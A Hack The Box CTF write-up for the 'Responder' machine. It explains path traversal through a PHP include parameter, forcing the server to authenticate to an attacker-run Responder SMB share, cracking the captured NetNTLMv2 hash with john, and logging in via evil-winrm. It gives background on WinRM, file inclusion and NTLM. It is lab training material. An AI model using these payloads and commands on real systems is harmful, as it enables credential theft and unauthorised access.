 ```yaml
---
layout: post
title: 00 - Responder
date: 2022-08-20
categories: [Writeups,HTB,Very_Easy,Responder]
tags: [SAMBA,WinRM]
---
```


# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Windows | 24/05/2022 | 24/05/2022 |


# Thought process
1. View running services with `nmap`.
2. Edit `/etc/hosts` for being able to see the web.
3. Check how web works and think if I can attack doing File Inclusion.
4. Capture Administrator NTLM.
5. Dump hash file to get Administrator Password.
6. Connect with WinRM and find flag file.


# Resolution
Edit `/etc/hosts` like this:
```bash
@IP unika.htb
```

Test the "page" parameter to see if we can access to some commonly known files that will have the same name across networks, Windows domains, and systems. [Link](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)
The most common file to check as Pentester is `WINDOWS\System32\drivers\etc\hosts`.
Final URL: `page=../../../../../../../../windows/system32/drivers/etc/hosts` 
The file incluson was made possible thanks to `include()` method of php is being used by page parameter to load differents `.html` depending the lengague of the site.

In the PHP configuration file `php.ini` , "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs. 
We can use `Responder` to steal NTLM hash.
```bash
$ sudo python3 Responder.py -I tun0
```

Now we tell the server to include a resource from our SMB Server by setting the "page" parameter.
```
http://unika.htb/?page=//@IP/somefile
```

The server will try to finde the file but it doesn't exists. Mean while, we captured the NetNTLMv for the Administrator User. Now with `john` we can dump the hash.
```bash
$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
[hash.txt]: Is the hash captured with Responder and redirected to a file.

Finally, with the username and password, we can WinRM the machine to find if there's any file with the Flag.
```bash
$ evil-winrm -i @IP_Server -u administrator -p badminton
```
[type]: Command to view the content.


# WinRM
Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. 
WinRM allows the user to : 
	→ Remotely communicate and interface with hosts 
	→ Execute commands remotely on systems that are not local to you but are network accessible. 
	→ Monitor, manage and configure servers, operating systems and client machines from a remote location
[//]: We can find credentials (typically username and password) for a user who has remote management privileges and execute PS.


# File Inclusion Vulnerability
Dynamic websites include HTML pages on the fly based on some of the parameters (Cookies, POST parameters...)

## Local
Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common example is when the attacker can use `../` in the inputted file and view sensitive files of the server.

## Remote
Similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.


# include()
```php
File 1 --> vars.php 
<?php

$color = 'green';
$fruit = 'apple';

?>

############################################# 

File 2 --> test.php
<?php

echo "A $color $fruit"; // output = "A"
include 'vars.php';
echo "A $color $fruit"; // output = "A green apple"

?>
```
More info about php include(). [Link](https://www.php.net/manual/en/function.include.php)


# NTLM
Collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.
1. The client sends the user name and domain name to the server. 
2. The server generates a random character string, referred to as the challenge. 
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server. 
4. The server retrieves the user password (or equivilent). 
5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.

More info about NTLM. [Link](https://www.ionos.com/digitalguide/server/know-how/ntlm-nt-lan-manager/)


# Responder
! It can be used in a lot of ways, in this CTF is going to recreate a SMB Server.

When the target machine attempts to perform the NTLM authentication to that server, Responder sends a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same challenge response, and if we find one, we know that is the password.
